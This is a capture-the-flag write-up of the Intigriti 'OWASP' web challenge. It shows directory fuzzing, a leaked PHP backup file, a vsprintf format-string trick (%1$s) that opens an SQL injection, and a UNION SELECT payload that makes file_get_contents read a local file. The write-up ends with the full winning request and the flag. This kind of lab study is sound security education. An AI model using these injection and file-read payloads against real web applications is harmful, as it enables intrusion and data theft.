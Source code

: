 # OWASP, web, 500 points, 6 solves  
Everyone knows the OWASP top 10 are vulnerable, I guess this might be too 💀  Author: Ivars Vids  `https://owasp.ctf.intigriti.io`  

---
Website shows OWASP Top Ten security risks, containing a search bar at the top.

![owasp-website-screenshot](owasp-website-screenshot.webp)

Searching for "injection" shows a single risk about injection and URL changes to `https://owasp.ctf.intigriti.io/search.php?title=injection`.

![owasp-website-search-screenshot](owasp-website-search-screenshot.webp)

As none of the common injections work (SQL, command, template, etc.) and there's nothing more interesing,
more enumeration is required to discover anything useful. Website is PHP-based, let's search for more PHP files.

```
$ ffuf -u https://owasp.ctf.intigriti.io/FUZZ -w ~/SecLists/Discovery/Web-Content/common.txt -mc 200 -e '.php'
(..)
db.php                  [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 31ms]
footer.php              [Status: 200, Size: 29, Words: 1, Lines: 5, Duration: 18ms]
header.php              [Status: 200, Size: 344, Words: 29, Lines: 15, Duration: 30ms]
index.php               [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 30ms]
index.php               [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 51ms]
robots.txt              [Status: 200, Size: 53, Words: 2, Lines: 2, Duration: 18ms]
search.php              [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 140ms]
```

Nothing interesting in these files, except a troll containing `robots.txt`:

```
Sitemap: https://www.youtube.com/watch?v=DPtn9KzfsGI
```

Trying to search for various PHP backup files turns out to be more fruitful.

```
$ ffuf -u https://owasp.ctf.intigriti.io/FUZZ -w ~/src/sec/SecLists/Discovery/Web-Content/common.txt -mc 200 -e '.php~,.php.old,.php.bak,.php.swp,.php.sav,.php.save'
(..)
index.php               [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 64ms]
robots.txt              [Status: 200, Size: 53, Words: 2, Lines: 2, Duration: 12ms]
search.php.save         [Status: 200, Size: 1295, Words: 167, Lines: 45, Duration: 22ms]
```

A complete source for `search.php` is revealed in `https://owasp.ctf.intigriti.io/search.php.save`:

```php
<?php
require_once('db.php');
$flag = file_get_contents('/flag.txt');
@include('header.php');

//build sql query
$sql = 'select * from owasp';
$sql_where = '';
foreach ($_REQUEST as $field => $value){
  if ($sql_where) $sql_where = " AND $sql_where";
  $sql_where = "position(%s in $field) $sql_where";
  try {
    $sql_where = @vsprintf($sql_where, Array("'". sqlesc($value) . "'"));
  } catch (ValueError | TypeError $e) {
    $sql_where = '';
  }
  if (preg_match('/[^a-z0-9\.\-_]/i', $field)) die ('Hacking attempt!');
}
$sql .= ($sql_where)?" where $sql_where":'';

foreach(sqlquery($sql) as $row){
  @include('row.php');
  $config = json_decode($row['config'], true);
}

if (isset($config['flag']) && $config['flag']){
  $url = $config['url'];
  // no printer manufacturer domains
  if (preg_match('/canon|epson|brother|hp|minolta|sharp|dell|oki|samsung|xerox|lexmark/i', $url)) die('Looks like a printer!');
//  $url = 'https://www.youtube.com/watch?v=2U3Faa3DejQ';
  if (filter_var($url, FILTER_VALIDATE_URL)) {
    $http_resp = file_get_contents($url);
    var_dump($http_resp);
    if ($flag === $http_resp){
      die('Yes! You got the right flag!');
    }
    die('Wrong flag');
  }
  else {
    die('URL does not start with HTTP or HTTPS protocol!');
  }
}

@include('footer.php');
```

There's a lot going on, but bascially the code generates SQL query from request parameters and expects a row containing `config` column with JSON content.
If the JSON content contains `flag` field and `url` field, then `url` field is passed to `file_get_contents` and compared with actual flag.

So the idea would be to make the code execute SQL query, which contains `config` column with `flag` and `url` fields, where latter would contain actual flag.
And to actually get it done, there must be an SQL injection somewhere. Ok.

Going back to SQL query generation, the initial request query `?title=injection` would run SQL query `select * from owasp where position('injection' in title)`.
Multiple parameter request query like `?field1=value2&field2=value2&...` would execute SQL query `select * from owasp where position(<value1> in <field1>) and position(<value2> in <field2>) ...`.

The `<field>` is matched with `preg_match` function, using regular expression `[^a-z0-9.-_]` and otherwise, the code is stopped with message about hacking.
The `<value>` is processed as a value to `vsprintf` function, where the only format string used is pre-defined `%s`. If the `vsprintf` somehow fails, neither `<value>` nor `<field>` is used.
Everything seems legit at the first glance.

Running a request with unknown field, e.g., `?test=123` returns MySQL error:

```php
Fatal error: Uncaught mysqli_sql_exception: Unknown column 'test' in 'where clause' in /var/www/html/db.php:11 Stack trace: #0 /var/www/html/db.php(11): mysqli->query('select * from o...') #1 /var/www/html/search.php(21): sqlquery('select * from o...') #2 {main} thrown in /var/www/html/db.php on line 11
```

This actually allows to brute-force all the columns in the table.

```
$ ffuf -u 'https://owasp.ctf.intigriti.io/?FUZZ=' -w ~/src/sec/SecLists/Discovery/Web-Content/burp-parameter-names.txt -fr 'mysql'
(..)
ID                      [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 18ms]
Id                      [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 21ms]
Title                   [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 26ms]
config                  [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 17ms]
description             [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 47ms]
id                      [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 210ms]
null                    [Status: 200, Size: 373, Words: 29, Lines: 19, Duration: 50ms]
title                   [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 213ms]
```

So the table, most probably, has columns `id, title, config, description`.  

Continuing to brute-force the `config` column like `?config=flag`, results in several strings like `flag`, `proto`, `false`, `description`, `1337UP` and a troll link `https://www.youtube.com/watch?v=Ct6BUPvE2sM`. This asserts that `config` contains JSON with `flag` field as previous link to YouTube. No `url` field, though.

All of this is fun and stuff, but doesn't help to solve the challenge.

Looking back at restrictions, the `<field>` is very restrictive (`[^a-z0-9.-_]`), but if `preg_match` function would return neither `0` nor `1`, but a `false` (on failure), then all is golden. Unfortunately, conditions for failure, like hitting a backtrack limit or a recursion limit, doesn't apply here, due very strict regular expression.

So the only place left to look is how `vsprintf` function is being used. On it's own, it would be safe, but in this case the "format" comes not only from pre-defined string `position(%s in $field)`, but also from previously generated where clause (they are concatenated). For example, if request query is `?field1=value1&field2=value`, then `vsprintf` is called two times:
1) format `position(%s in field1)`, value `'value1'`
2) format `position('value1' in field1) and position(%s in field2)`, value `'value2'`  

This leads to format string injection.

Injecting a simple `%s` would not work, as it would lead to format string `.. %s .. %s ..` with only one value in arguments and would fail.
But using `%1$s` would work fine, as it would lead to format string `... %s .. %1$s` and would work with single value in arguments.

Constructing a request query `?id=%1$s&title=in title) OR 1=1 -- -` results in successful SQL injection as the query would look like `select * from owasp where position('' in title) OR 1=1 -- - ' in id) and position('in title) or 1=1 -- -' in title)`.

Number of columns could be brute-forced, but, as deducted before, there are 4 columns in the table and request query `?id=%1$s&title=in title) UNION SELECT 1,1,1,1 -- -` works perfectly returning four ones.

The last step is to find which column is `config` and construct a JSON, which would contain required `flag` and `url` fields.
As the `url` is bluntly passed to `file_get_contents`, it can be simply `file:///flag.txt` and it will read it's contents.

```python
>>> b'{"flag":1,"url":"file:///flag.txt"}'.hex()
'7b22666c6167223a312c2275726c223a2266696c653a2f2f2f666c61672e747874227d'
```

The winning request: `https://owasp.ctf.intigriti.io/search.php?id=%1$s&title=in title) UNION SELECT 1,1,1,0x7b22666c6167223a312c2275726c223a2266696c653a2f2f2f666c61672e747874227d-- -`

Flag: `INTIGRITI{php_n4n0_5ql1_lf1_53cr37_fl46}`

---
P.S. 

There exists another troll table `flag` in the database, containing link to `https://www.youtube.com/watch?v=dQw4w9WgXcQ`.
